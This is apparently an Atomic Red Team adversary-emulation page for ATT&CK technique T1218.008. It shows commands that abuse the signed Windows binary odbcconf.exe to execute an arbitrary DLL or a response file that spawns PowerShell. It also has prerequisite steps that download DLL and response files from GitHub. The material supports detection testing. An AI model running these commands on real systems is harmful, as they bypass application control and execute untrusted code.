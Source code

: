 # T1218.008 - Signed Binary Proxy Execution: Odbcconf
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)
<blockquote>Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The Odbcconf.exe binary may be digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017) 
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)

- [Atomic Test #2 - Odbcconf.exe - Load Response File](#atomic-test-2---odbcconfexe---load-response-file)


<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL
Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows


**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_payload | DLL to execute | path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #2 - Odbcconf.exe - Load Response File
Execute arbitrary response file that will spawn PowerShell.exe.
Source files: https://github.com/woanware/application-restriction-bypasses

**Supported Platforms:** Windows


**auto_generated_guid:** 331ce274-f9c9-440b-9f8c-a1006e1fce0b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rsp_file_name | Response file name to load | string | T1218.008.rsp|
| rsp_file_path | Response file path | string | PathToAtomicsFolder&#92;T1218.008&#92;bin&#92;|


#### Attack Commands: Run with `command_prompt`! 


```cmd
cd #{rsp_file_path}
odbcconf.exe -f #{rsp_file_name}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218.008.rsp must exist on disk at specified location (#{rsp_file_path}#{rsp_file_name})
##### Check Prereq Commands:
```powershell
if (Test-Path #{rsp_file_path}#{rsp_file_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/T1218.008.rsp" -OutFile "#{rsp_file_path}#{rsp_file_name}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/o.dll" -OutFile "#{rsp_file_path}\o.dll"
```




<br/>
